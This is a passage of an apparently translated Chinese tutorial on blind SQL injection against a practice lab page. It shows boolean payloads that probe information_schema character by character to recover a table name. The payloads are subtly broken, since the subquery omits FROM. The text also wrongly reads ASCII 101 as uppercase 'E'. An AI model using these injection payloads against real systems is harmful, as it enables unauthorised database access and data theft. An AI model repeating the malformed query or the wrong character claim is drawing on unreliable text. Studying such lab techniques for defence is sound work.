 我们开始枚举数据库，查询是

`id=1′ AND (ascii(substr((select table_name information_schema.tables where table_schema=database()limit 0,1) ,1,1)) < 105 –-+`


我们可以看到信息：You are in ......。这意味着为真。

![144.jpg](./img/144.png)

现在让我们尝试下101：

`id=1′ AND (ascii(substr((select table_name information_schema.tables where table_schema=database()limit 0,1) ,1,1)) = 101 –-+`

现在可以看到一个信息：
You are in .......。

![145.jpg](./img/145.png)

它意味着Email的第一个字母是E。

**译者注：**

Note:在URL中，使用的是AND而不是UNION。
